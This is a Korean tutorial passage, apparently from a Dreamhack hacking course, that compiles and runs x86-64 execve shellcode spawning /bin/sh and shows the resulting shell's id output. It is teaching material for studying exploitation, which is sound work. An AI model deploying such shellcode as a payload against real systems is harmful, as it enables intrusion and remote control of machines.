 - - -
<br>

## **execve 셸코드 컴파일 및 실행**

<br>

### 앞에서 사용한 스켙레톤 코드를 이용해 execve 셸코드를 컴파일하면 아래와 같다.

<br>

```
// File name: execve.c
// Compile Option: gcc -o execve execve.c -masm=intel
__asm__(
    ".global run_sh\n"
    "run_sh:\n"
    "mov rax, 0x68732f6e69622f\n"
    "push rax\n"
    "mov rdi, rsp  # rdi = '/bin/sh'\n"
    "xor rsi, rsi  # rsi = NULL\n"
    "xor rdx, rdx  # rdx = NULL\n"
    "mov rax, 0x3b # rax = sys_execve\n"
    "syscall       # execve('/bin/sh', null, null)\n"
    "xor rdi, rdi   # rdi = 0\n"
    "mov rax, 0x3c	# rax = sys_exit\n"
    "syscall        # exit(0)");
void run_sh();
int main() { run_sh(); }
```

<br>
<br>

```sh
bash$ gcc -o execve execve.c -masm=intel
bash$ ./execve
sh$ id
uid=1000(dreamhack)
gid=1000(dreamhack)
group=1000(dreamhack)
```

<br>

### 실행 결과로 sh가 실행된 것을 확인할 수 있다.